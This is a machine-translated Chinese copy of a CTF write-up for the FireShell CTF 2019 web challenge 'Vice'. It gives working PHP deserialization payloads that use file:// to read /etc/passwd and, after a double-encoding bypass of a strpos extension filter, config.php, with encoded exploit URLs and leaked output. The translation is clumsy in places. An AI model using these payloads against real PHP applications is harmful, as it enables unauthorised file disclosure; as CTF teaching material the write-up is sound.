





# 凡世尔 CTF 2019 |网络(副)报道

> 原文：<https://infosecwriteups.com/fireshell-ctf-2019-web-vice-writeup-2deee8d82556?source=collection_archive---------0----------------------->

世界协调时 2019 年 1 月 27 日下午 19:00+2



凡世尔 CTF 2019 |网络(副)报道

*这是一篇为 web challenge 撰写的文章，曾在*[*FireShell CTF 2019*](https://ctftime.org/event/727)*今天，如果你还不知道，FireShell CTF 是一个巴西赛事，风格危险，友好的初学者。这个提议是为了在一个充满挑战但有趣的环境中测试参与者的黑客技能。*

# 虎钳—**300 分**

****

**副的**

**这个网页任务命名为**副**，根据我解决它时的动态记分牌，是 300 分。**

> ****挑战:** [副](https://github.com/Abdelkad3r/CTF/blob/master/Fireshell%20CTF%202019/WEB/Vice/Challenge.txt)**

**首先，让我们阅读和理解给定的 php 脚本，以了解在这个挑战中需要什么:**

**有一个 GET 参数 **$gg** 可能容易受到一些 php 错误和 bug 的攻击。我试图通过阅读和理解代码来检测错误，并在我的本地主机上进行测试。**

**使用 *unserialize* 函数对该参数进行非序列化，使用一种称为 *__destruct 的神奇方法。***

**所以这可能是 [**PHP 对象注入**](https://www.owasp.org/index.php/PHP_Object_Injection) **，**看看你如何利用这个漏洞，不同的场景和一些有效载荷通过:**

**[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/PHP.md) [## swisskyrepo/payloads all things

### Web 应用程序安全和 Pentest/CTF-swisskyrepo/payloads all things 的有用负载和旁路列表

github.com](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20deserialization/PHP.md) 

正如我提到的；当一个对象被删除时，有一个神奇的方法 *__destruct* 将有助于 PHP 对象注入。

```
**function __destruct(){
    if(in_array($this->method,array("doit"))){

      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }**
```

所以我们将使用带有 5 个对象的 *SHITS* 类，其中重要的一个是 *SHITS 方法*，它被称为 *doit* :

```
**function doit(){

    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }**
```

和 *SHITS url* ，这可能是一种泄漏 **/etc/passwd，**和最后这里是我的有效载荷泄漏 **/etc/passwd** :

```
**O:5:"SHITS":5:
{
s:10:"SHITSurl";
s:18:"file:///etc/passwd";
s:13:"SHITSmethod";
s:4:"doit";
s:11:"SHITSaddr";N;
s:11:"SHITShost";N;
s:11:"SHITSname";N;
}**
```

这是注入的和 URL 编码的有效载荷:

```
[**O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A18%3A%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D**](http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A18%3A%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D)
```

而且这里的/etc/passwd 已经泄露了！

```
[**http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A18%3A%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D**](http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A18%3A%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D)--------------------------------------------------------------------root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin libuuid:x:100:101::/var/lib/libuuid: syslog:x:101:104::/home/syslog:/bin/false mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```

现在我们必须继续我们的黑客攻击…目标是我们必须读取标志，根据给定的 php 脚本，标志存储在 config.php 的*中，因为这是必需的。所以让我们试着像泄露 **/etc/passwd** 一样泄露*config.php*。*

*我试着用不同的方法来泄露*config.php*但是没有结果！*

*主要问题是**。php"** 是中经过过滤的扩展名之一，所以不能执行*config.php*:*

**

*过滤扩展*

*经过几个小时的研究，我刚刚发现了一个漏洞，在 *strpos* 函数可能被利用，也许它可以导致绕过这个过滤器，并执行*config.php。**

*这个 bug 叫做 [**Bypass Strpos 验证**](https://bugs.php.net/bug.php?id=76671&edit=1) **，**这是 2018-27-07 提交的 PHP 最新 bug 之一。这个错误更多地与我们向 *strpos()* 发送带编码的字符串有关，当我们发送带双重编码的字符串时，我们能够使用 **%2570hp** 绕过验证，如果情况类似于*strpos(＄string，" php")* 。*

*在这种情况下，我们有 *strpos($this- > url。php")* 所以我们必须使用**双重编码**来绕过这个 *strpos* 验证，以便能够执行*config.php*。实际上，只要对**”进行双重编码就足够了。**为该旁路。*

***的双重编码。**是 **%252e，**还有一个问题是我甚至不知道*config.php*的正确路径，也是在朋友的帮助下才猜出来的，最后是这样:**/var/www/html/config . PHP***

*这是我用来绕过 *strpos* 验证并执行*config.php*的最终有效载荷，然后读取存储在*config.php*脚本中的标志，然后解决这个挑战:*

```
***O:5:"SHITS":5:
{
s:10:"SHITSurl";
s:33:"file:///var/www/html/config%252ephp";
s:13:"SHITSmethod";
s:4:"doit";
s:11:"SHITSaddr";N;
s:11:"SHITShost";N;
s:11:"SHITSname";N;
}***
```

*这是注入的和 URL 编码的有效载荷:*

```
***O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D*** 
```

*而这里是 config.php 已经被处决了！*

```
*[**http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D**](http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D)*
```

**

*config.php 被处决了！*

*然后通过查看 config.php 页面的源代码来阅读国旗:*

**

*查看 config.php 网页的源代码，然后阅读国旗*

*如上图，这里是泄露的*config.php*剧本:*

```
***<?php
if($_SERVER['REMOTE_ADDR'] !== '::1' || $_SERVER['REMOTE_ADDR'] !== '127.0.0.1'){
echo "aaawn";
}else{
$flag ="F#{wtf_5trp0s_}";
}***
```

> *标志是: **F#{wtf_5trp0s_}***

*这是一个很好的网络挑战，我只是和我的朋友和队友一起享受，我要感谢 [*FireShell 团队*](https://ctftime.org/team/25526) 创造了这样一个有趣的任务，也感谢他们组织了这次 CTF。*

*最诚挚的问候，***